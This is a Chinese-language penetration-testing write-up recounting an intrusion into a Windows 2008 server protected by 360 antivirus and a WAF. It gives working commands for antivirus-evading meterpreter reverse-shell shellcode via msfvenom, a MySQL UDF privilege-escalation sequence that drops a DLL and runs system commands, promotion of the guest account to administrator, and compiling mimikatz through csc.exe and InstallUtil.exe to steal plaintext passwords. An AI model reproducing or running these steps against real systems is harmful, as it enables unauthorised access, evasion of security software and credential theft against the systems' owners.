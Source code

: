 > 一次普通的项目，做完后，却陈思很久，遂打算一气合成把整个流程记录下来，此篇再一次的叮嘱我：分享便是我最好的老师。                          
> Micropoor
                                     
拿shell过程略过。（由于文章在项目实施结束形成，故部分无图或补图）

-------

### 目标机背景：
windows 2008 r2 x64位 360主动 + 360卫士 + 360杀毒 + waf，目标机仅支持 aspx。运行 OAWeb 服务（.net+mssql），并且是内网中其他服务器的数据库服务器（mysql 数据库，不支持 php，无 .net for mysql 驱动）

![](media/7aa1856e57ac0ef987a329b1b89a4524.jpg)

### 端口开放如下：
![](media/d599b0029b2b161bc950e73a1c40b841.jpg)

### 需要解决的第一个问题：payload 
由于目标机，安装某套装，payload 一定是必须要解决的问题。当 tasklist 的时候，看到如下图几个进程的时候，第一反应就是需要做 payload 分离免杀。分离免杀主要分两大类，一类为第三方分离免杀，一类为自带安装分离免杀。文章中，采取了第三方分离免杀。  
 
![](media/d2673aa4f5b1e77887ad446a0fdb2ec4.jpg)

### 本地补图（由于项目在实施后形成该文章，故本地靶机补图）

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。  

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

### 0x00:以msf为例：监听端口  
![](media/19dfebd9ab71a4e0c11ac47a082a5d7a.jpg)

### 0x01：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```
![](media/1a912494f05f8ca99edf268225e1a66f.jpg)

### 0x02:既然是shellcode方式的payload，那么需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：  
https://github.com/clinicallyinane/shellcode_launcher/  

>   作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。

![](media/8b5a85a36c75eb412d5938adcb9c07f8.jpg)  

生成的payload大小如下：476字节。  

![](media/f4ca74ee9eebe883fdf665a892e0b058.jpg)

世界杀毒网：  
![](media/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。  
![](media/be28c1202684af6369757b813f4d9649.jpg)  

而关于自带安装分离免杀，请参考我在公司 Wiki 上写的第六十九课时 **payload分离免杀思路第二季**  

payload 反弹到 vps 的 msf 上，我的权限仅仅如下。  
![](media/19694da12bf09c5a567986db01872863.jpg)

### 需要解决的第二个问题：提权
参考主机背景图，184个补丁，以及某套装。遂放弃了exp提权。  
* 原因1：需要更多的时间消耗在对反病毒软件对抗。  
* 原因2：目标机补丁过多。需要消耗更多的时间  
* 原因3：非常艰难的环境下，拿到了权限，不想因为某些exp导致蓝屏从而丢失权限。

开始翻阅目标机上的文件，以及搜集目标机的端口，服务，启动等一系列信息。发现目标机安装mysql，并与内网其中一台建立大量连接。mysql版本为5.1.49-community-log

下载目标机\*..MYI，\*.MYD，\*.frm，加载于本地mysql。得到目标机root密码  
![](media/6344f895e12122941c872ea7ec30e968.jpg)

而目标机没有相关脚本环境连接mysql，到这里，可以有2个方向针对该问题作出解决  
* 一：转发目标机端口到本地，从而操作mysql。  
* 二：在非交互式下，完成mysql udf的提权。

为了减少目标主机的流量探测，以及维护来之不易的session，故选择了第二种方案。非交互式下，mysql提权。

命令行下，调用mysql是需要在启动一个mysql窗口，从而继续执行，而session下没有这样的条件。但mysql的 -e 参数 作为直接执行sql语句，从而不另启动窗口。而-e需要注意的事项，use database。

也就是所有参数需要mysql.xxxx  
![](media/8ebbf18b920c921b26d200c0764b0e51.jpg)  

如没有指定database，将会出现如下错误，而使用UNION，将不会有回显，一定出现问题，将会很难定位，故选择以mysql.x的方式指定。

![](media/d66e6280c230d7df5594034f2b120506.jpg)

大致流程如下：
```bash
mysql -uroot -pXXXXXX -e "create table mysql.a (cmd LONGBLOB);" 
mysql -uroot -pXXXXXX -e "insert into mysql.a (cmd) values (hex(load_file('D:\\XXXXXXXXXX\\mysql5\\lib\\plugin\\u.dll')));"
mysql -u root -pXXXXXX -e "SELECT unhex(cmd) FROM mysql.a INTO DUMPFILE 'D:/XXXXXXXXXX/mysql5/lib/plugin/uu.dll';"
mysql -uroot -pXXXXXX -e "CREATE FUNCTION shell RETURNS STRING SONAME 'uu.dll'" 
mysql -uroot -pXXXXXX -e "select shell('cmd','whoami');"
```
![](media/9937c23b9e70b9cdd717edaf8872424c.jpg)

### 需要解决的第三个问题：登录服务器

在有套装的环境下，默认拦截cmd下加帐号，而目前又无法抓取系统登录明文。mimikatz被查杀。cmd下调用powershell被拦截。遂选择激活guest帐号，并提升到administrators组，来临时登录目标机。  
![](media/4eb174d39dbe43bc7d4428629d5398b0.jpg)

![](media/3455e7d1c707e61e18e8addd6e9cf92f.jpg)

### socks代理登录目标机：
![](media/071c738c001832dabeda3cf1474eb585.jpg)

### 需要解决的第四个问题：抓取目标机明文密码

登录服务器后，目前依然不知道目标机的密码。这里有两种方向来解决该问题。  
* 一：关闭我能关闭的套装，由于管理员没有注销登录。能关闭的有限。  
* 二：分离免杀做mimikatz密码抓取

作者选择了第二种方案：

这里需要用到**csc.exe，与InstallUtil.exe**

关于两个文件默认安装位置：（注意x32，x64区别）
```bash
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
分别执行：
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
![](media/18d0d45533111eb2d484ea1d82de9468.jpg)

![](media/69b5325b911756ed887ffd19523ae927.jpg)

### 派生出的第五个问题：横向渗透

关于第五个问题，本意并不是该篇幅所要讲述的，后续是搜集目标机的mssql，mysql，rdp 密码。搜集所在内网的拓扑，来辅助本次的横向扩展。便完成了本次的项目。
如需具体，请参考我在Wiki上的系列教程78，79，12，13，71课时。  

![](media/eccebe5ce07798d977d07e4c3c0d6e8b.jpg)

> 后者的话：
> 本次的整个流程，并没有遇到太多的问题，仅仅是把几个知识点的串联起来，形成的一个完整的渗透。也许你了解知识点1，也了解知识点2，还了解知识点3等等。但是一次完整的项目是离不开每一个知识点的串联与灵活运用。这应该是每一个信息安全从业人员值得思考的问题。

**在每次分享的同时，深深发现，原来分享，才是我最好的老师。**

> Micropoor


